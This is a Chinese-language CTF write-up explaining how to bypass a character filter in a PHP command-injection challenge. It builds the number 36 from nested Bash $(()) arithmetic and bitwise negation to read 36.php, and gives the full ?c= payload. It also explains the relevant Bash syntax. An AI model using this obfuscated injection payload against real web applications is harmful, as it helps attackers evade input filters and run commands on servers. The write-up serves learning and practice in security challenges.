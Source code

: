 
 利用linux的$​(())构造出36

$(())=0

\$((~ $(()) ))=-1

(())是用来整数运算的命令，内部可以放表达式，默认相加，通过$((~36)) 可得36取反为-37

 36可以通过外层为$(())包裹内层可以运算出36的表达式构造，36由-37取反得到，所以

\$((~$((   ))))   内部加上37个$((~ $(()) )) 得到 -37 。

再捋一遍就是：
题目要读取36.php，先对36取反，可以知道36可以由-37取反得到，-37又可以拆成37个 -1 相加也就是37个$((~$(( ))))，再在外面取反(也就是对-37取反)就可以得到36

最终payload:

```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) ))))
```



#### 知识点

> 
>
> 1、双小括号：（（））
>
> 双小括号 (( )) 是 Bash Shell 中专门用来进行整数运算的命令，它的效率很高，写法灵活，是企业运维中常用的运算命令。 通俗地讲，就是将数学运算表达式放在((和))之间。 表达式可以只有一个，也可以有多个，多个表达式之间以逗号,分隔。对于多个表达式的情况，以最后一个表达式的值作为整个 (( ))命令的执行结果。 可以使用$获取 (( )) 命令的结果，这和使用$获得变量值是类似的。 可以在 (( )) 前面加上$符号获取 (( )) 命令的执行结果，即获取整个表达式的值。以 c=$((a+b)) 为例，即将 a+b 这个表达式的运算结果赋值给变量 c。 注意，类似 c=((a+b)) 这样的写法是错误的，不加$就不能取得表达式的结果。
>
> 还要知道$(())的值是0
>
> 2、取反：
>
> 如果b=~a，那么a+b=-1。可以用二进制验算 
>
> ![img](https://img-blog.csdnimg.cn/20210831092105318.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVFQxM1VH,size_20,color_FFFFFF,t_70,g_se,x_16)
>
> 3、echo ${_} #返回上一次的执行结果

![img](https://img-blog.csdnimg.cn/20210831092201573.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVFQxM1VH,size_20,color_FFFFFF,t_70,g_se,x_16)
